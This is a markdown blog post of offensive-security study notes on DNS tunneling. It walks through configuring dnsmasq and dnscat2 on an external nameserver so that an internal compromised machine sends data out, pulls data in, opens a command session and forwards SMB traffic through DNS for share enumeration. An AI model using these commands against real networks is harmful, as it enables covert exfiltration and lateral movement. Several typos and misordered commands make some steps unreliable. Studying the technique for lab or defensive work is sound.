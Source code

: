 ```yaml
---
layout: post
title: DNS Tunneling
titledate: 09/24/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "dnsmasq", "dnscat2", "dns"]
---
```


#### dns queries and exfiltration

let's say we have shell access to target1 a windows machine that can talk to the internal psql db and another WAN connected machine that can only talk to target1

if we have shell access to both machines we may want to make the external connected WAN machine a dns server and we can do this with dnsmasq

inside our WAN linux machine shell we configure dnsmasq

    $ cat dnsmasq.conf

    - auth-zone=feline.corp
    - auth-server=feline.corp

start the service 

    $ sudo dnsmasq -C dnsmasq.conf -d

inside another shell on our newly configured dns server we start listening on the interface

    $ sudo tcpdump -i ens192 udp port 53

now on our internal pg db machine we start making dns queries aimed at our WAN dns server we setup

    $ resolvectl status

let's make a dns request using our newly created domain

    $ nslookup ex-data.feline.corp

it cannot find our domain because it hasnt been configured yet

if we check our tcpdump activity we'll seee a dns request that's because our target1 windows machine knows the authoritative name server belogs to our WAN machine and forwards the request along

this shows how we can send small amounts of data from inside the network to an externa machine we can control

#### serving records and infiltrating

now let's kill the dnsmasq process we started above and try to serve txt records

edit the dnsmasq.conf 

    $ vim cat dnsmasq_txt.conf
    
    # TXT record
    txt-record=www.feline.corp,blah blah
    txt-record=www.feline.corp,blah blah something

restart using our new conf

    $ sudo dnsmasq -C dnsmasq_txt.conf -d

now back on our internally connected pg db system we can make a dns query for a txt record

    $ nslookup -type=txt www.feline.corp

and this is how we can infiltrate a network using dns

#### dnscat2

dnscat2 allows us to exfiltrate and infiltrate data

dnscat2 runs on an authoritative nameserver for a domain and any client queries for that domain are compromised

let's listen on port 53

    $ sudo tcpdump -i ens192 udp port 53

start the dnscat2 server

    $nameserver:> dnscat2-server feline.corp

now inside our INTERNAL pg db machine we run

    $pgdb:> ./dnscat feline.corp

if we run dnscat2 server now on our nameserver we shold see an established connection

    $nameserver:> ./dnscat feline.corp

simiar to metasploit we can now interact with this session

if we enter

    $ windows

    $ window -i 1

this will connect to our pg db session and list available commands

we can tunnel smb traffic through dns requests

    $ listen 127.0.0.1:4455 172.16.50.50:445

then in another shell we can enumerate these shares on on our internal smb machine through the port forward we have setup

    $ smbclient -p 4455 -L //127.0.0.1 -U admin --password=password